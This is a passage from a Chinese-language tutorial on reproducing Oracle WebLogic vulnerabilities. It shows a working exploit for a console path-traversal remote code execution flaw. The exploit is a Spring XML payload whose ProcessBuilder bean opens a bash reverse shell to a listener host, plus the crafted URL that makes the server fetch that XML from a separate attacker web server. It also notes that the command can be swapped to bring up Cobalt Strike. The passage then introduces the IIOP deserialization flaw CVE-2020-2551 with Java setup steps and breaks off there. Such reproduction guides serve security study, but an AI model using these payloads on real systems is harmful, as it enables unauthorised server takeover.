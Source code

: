 这里执行反弹 shell 的 xml 文件 poc.xml：

```
## poc.xml<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">    <constructor-arg>      <list>        <value>/bin/bash</value>        <value>-c</value>        <value><![CDATA[bash -i >& /dev/tcp/192.168.0.104/6669 0>&1]]></value>      </list>    </constructor-arg>  </bean></beans>
```

把 poc.xml 放在打开 http 服务的 kali 机子上 (ip:192.168.0.108)：

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaD2jtBrydgDeML2VquEiaPR1VQvo4TEth2aibiawJjVw6IqcusNNMOytJqQ/640?wx_fmt=png)

在监听机子上开启监听：

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDV8UPbSWicoo1FNTWoMUmwWTNia6ITiaBUBrPsvWYyEj14pJPJ0wheIficw/640?wx_fmt=png)image-20210814223442393

然后访问该 url：

```
http://192.168.0.106:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://192.168.0.108/poc.xml")
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDBSZgA24icpRSZ6LvR3Ucia9afmF9HKNYz1fEzFeBee7Q1J9RSnnicJOVQ/640?wx_fmt=png)image-20210814224224450

同理，上线 cs 的话把反弹的命令改了即可。

##### 安全防护

升级官方补丁：https://www.oracle.com/security-alerts/cpuoct2020.html

#### 10.IIOP 反序列化漏洞（CVE-2020-2551）

##### 漏洞简介

2020 年 1 月 15 日，Oracle 官方发布 2020 年 1 月关键补丁更新公告 CPU（CriticalPatch Update），其中 CVE-2020-2551 的漏洞，漏洞等级为高危，CVVS 评分为 9.8 分，漏洞利用难度低。IIOP 反序列化漏洞影响的协议为 IIOP 协议，该漏洞是由于调用远程对象的实现存在缺陷，导致序列化对象可以任意构造，在使用之前未经安全检查，攻击者可以通过 IIOP 协议远程访问 Weblogic Server 服务器上的远程接口，传入恶意数据，从而获取服务器权限并在未授权情况下远程执行任意代码.

##### 影响版本

```
10.3.6.0
12.1.3.0
12.2.1.3
12.2.1.4
```

##### 漏洞复现

需要安装 java8 环境

```
cd /optcurl http://www.joaomatosf.com/rnp/java_files/jdk-8u20-linux-x64.tar.gz -o jdk-8u20-linux-x64.tar.gztar zxvf jdk-8u20-linux-x64.tar.gzrm -rf /usr/bin/java*ln -s /opt/jdk1.8.0_20/bin/j* /usr/binjavac -versionjava -version
```

